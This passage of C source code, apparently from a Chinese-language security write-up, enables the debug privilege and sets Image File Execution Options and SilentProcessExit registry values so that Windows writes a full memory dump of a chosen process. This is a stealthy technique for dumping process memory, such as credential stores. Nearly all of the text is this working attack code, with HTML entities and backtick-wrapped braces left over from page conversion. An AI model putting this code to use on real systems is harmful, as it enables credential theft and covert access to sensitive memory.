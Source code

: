 ```
    if (!LookupPrivilegeValue(NULL, SE_DEBUG_NAME, &amp;luid)) `{`
        printf(" - Lookup SE_DEBUG_NAME失败 %#X\n", GetLastError());
        return FALSE;
    `}`
    TOKEN_PRIVILEGES tokenPriv;
    tokenPriv.PrivilegeCount = 1;
    tokenPriv.Privileges[0].Luid = luid;
    tokenPriv.Privileges[0].Attributes = SE_PRIVILEGE_ENABLED;

    if (!AdjustTokenPrivileges(hToken, FALSE, &amp;tokenPriv, sizeof(tokenPriv), NULL, NULL)) `{`
        printf(" - AdjustTokenPrivileges 失败: %#X\n", GetLastError());
        return FALSE;
    `}`
    return TRUE;
`}`

BOOL setRelatedRegs(PCWCHAR procName) `{`

    HKEY hkResSubIFEO = NULL;
    HKEY hkResSubSPE = NULL;
    DWORD globalFlag = FLG_MONITOR_SILENT_PROCESS_EXIT;
    DWORD reportingMode = MiniDumpWithFullMemory;
    DWORD dumpType = LOCAL_DUMP, retstatus = -1;

    BOOL ret = FALSE;

    PWCHAR subkeyIFEO = (PWCHAR)malloc(lstrlenW(IFEO_REG_KEY)*2 + lstrlenW(procName)*2 + 5);
    wsprintf(subkeyIFEO, L"%ws%ws", IFEO_REG_KEY, procName);
    PWCHAR subkeySPE = (PWCHAR)malloc(lstrlenW(SILENT_PROCESS_EXIT_REG_KEY)*2 + lstrlenW(procName)*2 + 5);
    wsprintf(subkeySPE, L"%ws%ws", SILENT_PROCESS_EXIT_REG_KEY, procName);

    printf(" - [DEBUGPRINT] Image_File_Execution_Options: %ws\n", subkeyIFEO);
    printf(" - [DEBUGPRINT] SilentProcessExit: %ws\n", subkeySPE);

    do `{`
        // 设置 Image File Execution Options\&lt;ProcessName&gt; 下GlobalFlag键值为0x200
        if (ERROR_SUCCESS != (retstatus = RegCreateKey(HKEY_LOCAL_MACHINE, subkeyIFEO, &amp;hkResSubIFEO))) `{`
            printf(" - 打开注册表项 Image_File_Execution_Options 失败: %#X\n", GetLastError());
            break;
        `}`
        if (ERROR_SUCCESS != (retstatus = RegSetValueEx(hkResSubIFEO, L"GlobalFlag", 0, REG_DWORD, (const BYTE*)&amp;globalFlag, sizeof(globalFlag)))) `{`
            printf(" - 设置注册表键 GlobalFlag 键值失败: %#X\n", GetLastError());
            break;
        `}`

        // 设置 SilentProcessExit\&lt;ProcessName&gt; 下 ReporingMode/LocalDumpFolder/DumpType 三个值
        if (ERROR_SUCCESS != (retstatus = RegCreateKey(HKEY_LOCAL_MACHINE, subkeySPE, &amp;hkResSubSPE))) `{`
            printf(" - 打开注册表项 SilentProcessExit 失败: %#X\n", GetLastError());
            break;
        `}`
        if (ERROR_SUCCESS != (retstatus = RegSetValueEx(hkResSubSPE, L"ReportingMode", 0, REG_DWORD, (const BYTE*)&amp;reportingMode, sizeof(reportingMode)))
            || ERROR_SUCCESS != (retstatus = RegSetValueEx(hkResSubSPE, L"LocalDumpFolder", 0, REG_SZ, (const BYTE*)DUMP_FOLDER, lstrlenW(DUMP_FOLDER)*2))
            || ERROR_SUCCESS != (retstatus = RegSetValueEx(hkResSubSPE, L"DumpType", 0, REG_DWORD, (const BYTE*)&amp;dumpType, sizeof(dumpType)))) `{`
            printf(" - 设置注册表键 reportingMode|LocalDumpFolder|DumpType 键值失败: %#X\n", GetLastError());
            break;
        `}`
```